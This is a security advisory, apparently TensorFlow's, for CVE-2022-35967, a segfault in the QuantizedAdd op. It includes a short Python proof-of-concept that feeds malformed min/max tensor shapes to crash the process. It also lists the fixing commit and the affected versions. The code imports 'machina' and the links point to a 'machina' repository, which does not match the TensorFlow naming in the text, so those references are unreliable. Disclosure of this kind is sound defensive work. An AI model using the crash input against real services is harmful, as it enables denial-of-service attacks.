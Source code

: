 ## TFSA-2022-099: Segfault in `QuantizedAdd`

### CVE Number
CVE-2022-35967

### Impact
If `QuantizedAdd` is given `min_input` or `max_input` tensors of a nonzero rank, it results in a segfault that can be used to trigger a denial of service attack.
```python
import machina as tf

Toutput = tf.qint32
x = tf.constant(140, shape=[1], dtype=tf.quint8)
y = tf.constant(26, shape=[10], dtype=tf.quint8)
min_x = tf.constant([], shape=[0], dtype=tf.float32)
max_x = tf.constant(0, shape=[], dtype=tf.float32)
min_y = tf.constant(0, shape=[], dtype=tf.float32)
max_y = tf.constant(0, shape=[], dtype=tf.float32)
tf.raw_ops.QuantizedAdd(x=x, y=y, min_x=min_x, max_x=max_x, min_y=min_y, max_y=max_y, Toutput=Toutput)
```

### Patches
We have patched the issue in GitHub commit [49b3824d83af706df0ad07e4e677d88659756d89](https://github.com/machina/machina/commit/49b3824d83af706df0ad07e4e677d88659756d89).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
